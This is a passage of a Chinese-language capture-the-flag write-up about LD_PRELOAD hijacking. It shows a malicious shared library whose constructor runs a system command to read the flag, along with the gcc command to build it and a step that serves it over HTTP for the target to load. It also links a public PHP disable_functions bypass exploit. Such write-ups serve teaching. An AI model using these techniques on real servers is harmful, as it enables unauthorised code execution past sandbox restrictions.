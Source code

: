 然后服务器上面的``hack.c``文件如下：

```c
#include <stdlib.h>
#include <stdio.h>
__attribute__ ((__constructor__)) void angel (void){
    system("/readflag > /tmp/ch3n9w");
}
```

使用命令``gcc --share -fPIC hack.c -o hack.so``命令来编译共享文件。在服务器目录下面开启``python -m SimpleHTTPServer 80``，并运行上述python脚本，即可看到flag。

![image-20211114141817095](/images/LD-PRELOAD劫持类型题目/image-20211114141817095.png)

> ps:每个人的目录会不定时被服务器清空







> 如果LD_PRELOAD不行可以考虑上通杀马
>
> https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php
